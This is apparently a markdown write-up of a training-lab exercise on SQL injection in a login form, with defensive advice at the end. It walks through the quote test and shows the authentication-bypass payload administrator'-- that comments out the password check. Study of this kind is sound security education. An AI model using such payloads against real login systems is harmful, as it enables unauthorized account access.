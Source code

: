 > 💡 These notes are based on the **SQL injection in login functionality** lab, solved with the help of Rana Khalil's tutorial.

---

## 🔍 Goal

Log in as the `administrator` user **without knowing the password** by exploiting an SQL injection vulnerability.

---

## 🧪 Initial Test

We start by entering a single quote `'` in the login form fields.

Result: **Internal Server Error**

➡️ This suggests that the backend query is breaking due to improper input sanitization. Likely an SQL injection point.

---

## 🧠 What's Happening in the Backend?

Normally, the login form might be sending a query like this:

```sql
SELECT firstname FROM users WHERE username = 'admin' AND password = 'admin'
```

If the input is valid, this query returns a user and logs them in.

---

## ❌ Attempting SQL Injection with `admin`

Let’s try:

```sql
username: admin'--
password: anything
```

Resulting query:

```sql
SELECT firstname FROM users WHERE username = 'admin'--' AND password = 'anything'
```

We still get an error or are not logged in. That’s because **there is no `admin` user** in the database.

---

## ✅ Correct Payload with `administrator`

Let’s try instead:

```sql
username: administrator'--
password: anything
```

This produces:

```sql
SELECT firstname FROM users WHERE username = 'administrator'--' AND password = 'anything'
```

The `--` comment sequence disables the rest of the SQL query (including the password check).

➡️ **Result:** We are logged in as the administrator!

---

## 🧬 Summary

| Step | Payload | Result |
|------|---------|--------|
| `'` test | `'` in username or password | Internal Server Error (SQL injection point confirmed) |
| `'--` with `admin` | `admin'--` | No login (user doesn't exist) |
| `'--` with `administrator` | `administrator'--` | ✅ Logged in successfully |

---

## 🛡️ Note

This vulnerability is possible due to unsanitized inputs in SQL queries. Proper defense mechanisms include:

- Prepared statements (parameterized queries)
- ORM frameworks
- Input validation & sanitization

---
